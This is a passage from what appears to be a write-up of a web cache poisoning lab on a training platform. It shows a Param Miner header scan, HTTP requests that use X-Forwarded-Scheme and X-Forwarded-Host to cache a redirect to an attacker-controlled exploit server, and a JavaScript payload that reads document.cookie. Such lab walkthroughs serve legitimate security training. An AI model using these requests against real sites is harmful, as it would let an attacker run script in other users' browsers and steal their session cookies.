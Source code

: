 So we can see that the server returns redirect to `https://...` only when X-Forwarded-Scheme: is not equal to `https`

Now we want to run another Param miner scan. But this time we want to run it together with `X-Forwarded-Scheme: nothttps`
It's important to understand that Param miner only adds 1 header per request that it makes. It never adds 2 or more headers. Therefore we now want to try other headers to be combined with the `X-Forwarded-Scheme: nothttps` header that we found in the first scan, to see if we can find another header, that in combination with `X-Forwarded-Scheme: nothttps` can modify the response further

So the result of the second scan:
```bash
Initiating header bruteforce on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net
Identified parameter on 0a4c000e046d8adf8538b7ad009c001f.web-security-academy.net: x-forwarded-host~%s.%h
```

So we found `X-Forwarded-host` header modifies the response when combined with `X-Forwarded-host`and we try to use them both:
```bash
GET /resources/js/tracking.js?cb=1234 HTTP/2
Host: 0a41002b03d774ae80b2179300c300f2.web-security-academy.net
X-Forwarded-Host: example.com
X-Forwarded-Scheme: http
```
Response:
```bash
HTTP/2 302 Found
Location: https://example.com/resources/js/tracking.js?cb=1234
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```

As we can see from the response we can manipulate the redirect url.
Important to note that the redirect that we got from the server is cached. Which means we can poison the cache with a redirect to our own server. And later other users will get this cached response (which is a redirect to our own server)

Go to the exploit server (or the server that you control) and create an endpoint that matches `/resources/js/tracking.js`
Pay attention: this is a js file, which means that whatever is contained in that js file, will later be executed by in the browser

So on our exploit server in the response body, we return the response: `alert(document.cookie)`

Now we need to poison the cache. We remove cache buster and modify X-Forwarded-Host header to point to the server that we control
```bash
GET /resources/js/tracking.js HTTP/2
Host: labid.web-security-academy.net
X-Forwarded-Scheme: any
X-Forwarded-Host: exploitserverid.exploit-server.net
```
